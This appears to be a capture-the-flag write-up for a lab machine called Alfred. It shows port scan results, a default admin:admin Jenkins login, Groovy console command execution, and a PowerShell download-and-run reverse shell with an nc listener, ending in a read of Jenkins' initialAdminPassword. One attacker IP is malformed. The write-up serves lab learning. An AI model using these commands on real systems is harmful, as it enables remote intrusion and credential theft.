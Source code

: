 # Alfred

---

IP = `10.10.145.14`

## Initial Access

> How many ports are open? (TCP only)



```
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Microsoft IIS httpd 7.5
3389/tcp open  tcpwrapped
8080/tcp open  http       Jetty 9.4.z-SNAPSHOT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

> What is the username and password for the login panel? (in the format username:password)

`admin:admin`

How:
random password testing


`http://10.10.145.14:8080/computer/(master)/script`

- Groovy script

println System.getenv("PATH")
println "uname -a".execute().text

- https://github.com/samratashok/nishang
- https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

`powershell iex (New-Object Net.WebClient).DownloadString('http://10.4.961.75:4545/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.4.96.175 -Port 4545`

`println "powershell iex (New-Object Net.WebClient).DownloadString('http://10.4.96.175:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.4.96.175 -Port 4545".execute().text`

`nc -lnvp 4545`

```
PS C:\Program Files (x86)\Jenkins> cd secrets
PS C:\Program Files (x86)\Jenkins\secrets> ls
--SNIP--
-a---        10/25/2019   9:55 PM         34 initialAdminPassword
--SNIP--

PS C:\Program Files (x86)\Jenkins\secrets> cat initialAdminPassword
44b934851a1b4275a4b23864b35eb382
PS C:\Program Files (x86)\Jenkins\secrets>

```
